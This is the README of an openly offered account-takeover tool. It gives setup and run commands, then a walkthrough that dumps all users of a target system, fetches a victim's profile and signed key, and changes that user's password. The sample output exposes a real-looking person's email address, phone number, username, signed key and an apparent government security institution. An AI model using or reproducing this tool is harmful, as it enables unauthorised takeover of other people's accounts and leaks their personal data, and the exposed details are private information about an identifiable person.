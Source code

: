# Account Take Over
This is a Account Take Over that demonstrates how to create a README.md file for installation and usage instructions.
![alt text](imgs/image.png)

## Table of Contents

- [Installation](#installation)
  - [Windows](#windows)
  - [Linux](#linux)
- [Usage](#usage)

## Installation
1. **Clone the repository:**

   ```bash
   git clone https://github.com/osochello/account_takeover.git

   cd account_takeover/
#### Windows

1. open cmd terminal as Adminstartor
2. Set Env and Install Requirments
3. Steps For Running

   ```bash
   #setup virtual env and install requirment command
   config.bat

   #for running the script type
   run.bat

#### Linux

1. Open Termical
2. Steps For Running

   ```bash
   #setup virtual env and install requirment command
   chmod +x config.sh
   ./config.sh
   
   #for running the script type
   chmod +x run.sh
   ./run.sh


## Usage
1. When a started it ask you to enter for hosting ip Server
    ```bash 
        Enter IP Address For Server Hosting: 10.0.20.21
1. and then it display you these
    ```bash 
        1. Get All Users
        2. Account Take Over

        Choose option (1 or 2): 2
        Enter User Id You want to get his signed Hash: 21
3. if you choose 1 its display all users of the system database and save them to file.
4. so in my case i choose number 2 for account takeover and i tried to use user id 21 for testing 
    ```bash
                 Profile For Jaam Solutions Tech

            User Id : 21
            Profile Image : /static/assets/placeholder.jpeg
            Email : ayanlestyle@gmail.com
            Name : Jaam Solutions Tech
            Phone : 212112
            Username : baarepol90
            Nooca Userka : Baare
            Waaxda Userka : xabsigahbbbbb
            Institution : Hay'adda Nabad Sugidda Qaranka
            Signed_key : MjE:1rdoat:b0KeuhbNbjUSsxfTByU5W4b-TWj67emno7EuCgTfgqE
5. after display User Profile it also ask you these three questions
    ```bash
        1. Profile Change
        2. Reset Password
        3. Change User Password.

        Choose option (1 or 2): 3
6. i choose 3 for change user password
    ```bash
        Enter your new password:
        # hint use 8 characters include Capital and Symbols e.g(Aa@2024!$): Aa@2024!

        Sending Data To The Server

        {"isError": false, "Message": "Saved it successfully"}
7. finaly it shows message for Successfully Changes Password.